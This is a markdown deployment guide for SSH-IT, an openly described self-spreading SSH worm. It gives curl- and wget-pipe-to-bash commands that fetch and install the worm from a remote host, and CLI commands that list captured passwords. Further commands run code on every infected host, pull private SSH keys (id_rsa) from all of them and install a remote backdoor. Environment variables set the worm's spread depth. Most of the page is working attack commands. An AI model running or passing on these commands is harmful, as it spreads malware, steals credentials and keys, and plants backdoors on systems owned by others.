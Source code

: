 ```yaml
---
layout: default
title: SSH-IT | Deploy
description: Autonomous SSH worm deployment guide.
---
```


Use either one of these commands to deploy:

```shell
bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

or:

```shell
bash -c "$(wget --no-verbose -O- ssh-it.thc.org/x)"
```

{:refdef: style="text-align: center;"}
![Deploy-Example](deploy-example2.png)
{: refdef}

To show all captured passwords use:

```shell
~/.config/prng/thc_cli -r list
```

{:refdef: style="text-align: center;"}
![Deploy-Example](list-example.png)
{: refdef}

To uninstall use:

```shell
~/.config/prng/thc_cli -r uninstall
```

## Environment variables:

Deployment can be controlled with these environment variables

| :--- | :--- |
| `THC_DEPTH=` | SSH-IT will spread to this depth and then stop. The default is `THC_DEPTH=2`. |
| `THC_BASEDIR=` | Installation directory. Default is `THC_BASEDIR="${HOME}/.config/prng"`. |
| `THC_VERBOSE=1` | For testing only: Display a warning to the user when *ssh* is being intercepted (in bold red). |
| `THC_DEBUG=1` | For testing only: Display debug information |
| `THC_DEBUG_LOG=thc.log` | For testing only: Output (most) debug information to `thc.log`. |

Example:

```shell
THC_DEPTH=6 THC_DEBUG=1 bash -c "$(curl -fsSL ssh-it.thc.org/x)"
```

## Tips & Tricks

SSH-IT is controlled with `thc_cli`.

```
usage: thc_cli [-hr] [command]
    -h          This help
    -r          Recursive (for all hosts)
Command:
    list       - Show passwords
    exec <cmd> - Execute <cmd> on target [e.g. thc_cli -r exec "id; date"]
    clean      - Clean logfiles and state information
    disable    - Disable interception
    uninstall  - Clean, disable and completely remove
Example: thc_cli -r list
```

### Remote Command Execution

Executing a command on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'id'
```

Retrieve the private SSH key (`id_rsa`) from _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'cat .ssh/id_rsa 2>/dev/null'
```

Install a [backdoor](https://www.gsocket.io/deploy) on _all_ hosts:

```shell
~/.config/prng/thc_cli -r exec 'bash -c "$(curl -fsSL gsocket.io/x)"'
```

### Offline Installs or when HTTPS is not available

Deploy from a self-extracting shell-script [ssh-it-deploy.sh](http://nossl.segfault.net/ssh-it-deploy.sh):

```shell
# Without HTTPS
wget --no-hsts http://nossl.segfault.net/ssh-it-deploy.sh && \
bash ./ssh-it-deploy.sh
```

### Help the team

Help us fix bugs and send us `thc.log` if a boo-boo happens:

```shell
THC_DEBUG=1 THC_DEBUG_LOG=thc.log ssh user@yourhost "id"
```

Special thanks to Leonardo, Gerald, BadAdvert1zer and DoctorWho for ideas and testing.

## Contact

{% include contact-details.md %}

